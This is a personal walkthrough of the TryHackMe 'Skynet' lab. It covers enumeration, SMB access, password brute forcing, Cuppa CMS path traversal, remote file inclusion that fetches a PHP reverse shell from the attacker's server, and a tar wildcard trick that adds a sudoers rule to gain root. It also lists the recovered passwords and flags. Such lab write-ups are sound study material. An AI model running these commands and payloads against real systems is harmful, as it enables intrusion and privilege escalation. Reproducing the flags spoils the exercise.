

# Skynet

> Converted from cybersecurity DOCX notes into a structured markdown outline and study reference.



**Tags:** `enum4linux`, `hydra`, `dirb`, `smbclient`, `intruder`, `directorytraversal`, `php`, `gtfo`

- Writeup: https://medium.com/azkrath/tryhackme-walkthrough-skynet-69399702ee5a

## Step 1: Review the webpage

- Visit the URL and see it is a search engine

- neither of the buttons do anyting

- Review the source code and there is nothing useful.

- NO "robots.txt" but did identify the server as "Apache/2.4.18 (Ubuntu) Server and is on port 80

- Close the website

## Step 2: Nmap

- "nmap -Pn 10.10.1963.224"

```bash
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
110/tcp open pop3
139/tcp open netbios-ssn
143/tcp open imap
445/tcp open microsoft-ds
```

- Try again:

## Step 3: Enumerate subdomains and Directories

- "dirb http://10.10.196.224:80 /usr/share/wordlists/dirb/common.txt"

- No permission to access the enumerated directories: admin, config, css

- didn't let the process finish. Assumed we were not going to be accessingg any subfolders.

## Step 4: Enumerate SMB

- Enum4Linux: "enum4linux <options><ip>"

- seems to allow anonymous login (blank username and password)

- funds an account: milesdyson

```bash
Sharename Type Comment
```

- -------- ---- -------

print$ Disk Printer Drivers

anonymous Disk Skynet Anonymous Share

milesdyson Disk Miles Dyson Personal Share

IPC$ IPC IPC Service (skynet server (Samba, Ubuntu)) Reconnecting with SMB1 for workgroup listing.

- //10.10.196.224/print$ Mapping: DENIED Listing: N/A Writing: N/A

- //10.10.196.224/anonymous Mapping: OK Listing: OK Writing: N/A

- //10.10.196.224/milesdyson Mapping: DENIED Listing: N/A Writing: N/A

## Step 5: Try Connecting to Anonymous SMB

- "smbclient //<ip>/<share> -U <username> -p<port>"

- "smbclient //10.10.196.224/anonymous"

- found file: attention.txt

- Downloaded the file: "get attention.txt"

- file indicates that all employees need to change their passwords.

- also found a "logs" directory with three files and used the get command to download them. One file looks like a list of usernames or passwords. The other files were 0 size, so useless.

## Step 6: Try Connecting to milesdyson SMB with Hydra

- 'hydra -l <username> -P <wordlist of passwords> <server ip or hostname> <service>'

- example: hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.59.175 ftp

- command: hydra -l milesdyson -P log1.txt 10.10.196.224 smb

- none of the passwords worked. Likely this is a list of passwords that will work on the email

## Step 7: Rerun Nmap

```bash
nmap -Pn -sV -sC 10.10.196.224
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-17 22:56 EDT
Nmap scan report for 10.10.196.224
Host is up (0.21s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| 256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_ 256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: SASL UIDL PIPELINING AUTH-RESP-CODE TOP CAPA RESP-CODES
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapd
|_imap-capabilities: IMAP4rev1 more have IDLE post-login LITERAL+ capabilities Pre-login listed SASL-IR LOGINDISABLEDA0001 ENABLE OK ID LOGIN-REFERRALS
445/tcp open netbios-` Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h39m54s, deviation: 2h53m12s, median: -6s
| smb2-time:
| date: 2023-07-18T02:56:50
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
| Computer name: skynet
| NetBIOS computer name: SKYNET\x00
| Domain name: \x00
| FQDN: skynet
|_ System time: 2023-07-17T21:56:50-05:00
```

## Step 8: Exploit Dovecot

- exploit db has a proof of concept for dovecot

- could not get the exploit to work

## Step 9: Find the vulnerable email service (after restarting a new VM)

```bash
└─$ sudo dirb http://10.10.53.139 /usr/share/wordlists/dirb/common.txt -r
----------------
```

DIRB v2.22

By The Dark Raver

```bash
----------------
START_TIME: Tue Jul 18 00:07:33 2023
```

- URL_BASE: http://10.10.53.139/

- WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

- OPTION: Not Recursive

```bash
----------------
```

- GENERATED WORDS: 4612

- --- Scanning URL: http://10.10.53.139/ ----

```bash
==> DIRECTORY: http://10.10.53.139/admin/
==> DIRECTORY: http://10.10.53.139/config/
==> DIRECTORY: http://10.10.53.139/css/
+ http://10.10.53.139/index.html (CODE:200|SIZE:523)
==> DIRECTORY: http://10.10.53.139/js/
+ http://10.10.53.139/server-status (CODE:403|SIZE:277)
==> DIRECTORY: http://10.10.53.139/squirrelmail/
----------------
END_TIME: Tue Jul 18 00:23:52 2023
DOWNLOADED: 4612 - FOUND: 2
```

## Step 10: Use Burpsuite and the log1.txt to exploit the squirrelmail

- used intruder

- password: cyborg007haloterminator returns a shorter length response, indicating it is the correct password

- another usernamep: "serenakogan@skynet" and "skynet@skynet"

- email contains several things

- one email contains binary, used cyber chef: "balls have zero to me to me to me to me to me to me to me to me to"

- One email has the new SMB password:

## Step 11: Connect to SMB with milesdyson account

```bash
smbclient //10.10.53.139/milesdyson -U milesdyson -P )s{A&2Z=F^n_E.B`
```

- this doesn't work because the password has special characters, so put the new password into it's own file

```bash
smbclient //10.10.53.139/milesdyson -U milesdyson -p pass.txt
```

- enumerating the entire smb: smbclient //10.10.53.139/milesdyson -c 'recurse;ls' -U milesdyson -p pass.txt

- shows a file "important.txt" in the "notes'" directory

- Command: "get \notes\important.txt"

- contains the name of the hidden directory: 45kra24zxs28v3yd

## Step 12: Visit the hidden directory

```bash
http://10.10.53.139/45kra24zxs28v3yd/
```

- it works but there is nothing there

## Step 13: enumerate more shares on this new directory

```bash
sudo dirb http://10.10.53.139/45kra24zxs28v3yd/ /usr/share/wordlists/dirb/common.txt -r
```

- found "administrator"

- tried "milesdyson" and "cyborg007haloterminator" but didn't work and neither did the smb password ")s{A&2Z=F^n_E.B`"

## Step 14: Check Exploit-db for Cuppa CMS

- https://www.exploit-db.com/exploits/25971

- reveals PHP code injection we can use for directory traversal or file inclusion

- Directory traversal to the passwd file: http://10.10.53.139/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

- started with two "../../" and kept adding one until I got the passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

- man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

- lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

```bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```

- news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

- uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

- proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

```bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

- backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

- list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

- irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

- gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

- nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

- systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false

- systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false

- systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false

- systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false

- syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false

- lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false

- dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin

```bash
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:113:121::/var/spool/postfix:/bin/false

```bash
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```

- nothing helpful because you can't get the shadow file to use the "unshadow" command

## Step 15: Remote file inclusion / Reverse Shell

- found a php reverse shell from /usr/share/

- renamed it to prs.php

- edited to make my attacking device and the port to 8888

- setup python server: "python -m http.server 8889"

- set up netcat listender: nc -lvnp 8888

- transfer the reverse shell to the target machine: http://10.10.53.139/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.2.29.130:8889/prs.php

- this autoconnected back to my netcat listener and made me the www-data user

- navigated to the milesdyson folder and found the "user.txt" file with the user flag: 7ce5c2109a40f958099283600a9ae807

- the "backups" folder is howned by "root" and contains a shell file

- the shell file contains the "tar" command backs up the html folder into miles' backup directory. This is likely the ability to use crontabs escalation

## Step 17: Privilege Escalation

- cannot add any files to the "backups" folder and can't edit the backups.sh file. Requires higher privileges

- the shell runs tar, so the only hope is to check gtfo bins for a tar exploit

- requires three commands be executed from within /var/www/html:

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"
```

Wait for a minute or so and try "sudo su" to switch to the root user

Navigate to the root folder and find the root.txt

### What is Miles password for his emails?

- cyborg007haloterminator

### What is the hidden directory?

45kra24zxs28v3yd

### What is the vulnerability called when you can include a remote file for malicious purposes?

- remote file inclusion

### What is the user flag?

- 7ce5c2109a40f958099283600a9ae807

### What is the root flag?

3f0372db24753accc7179a282cd6a949
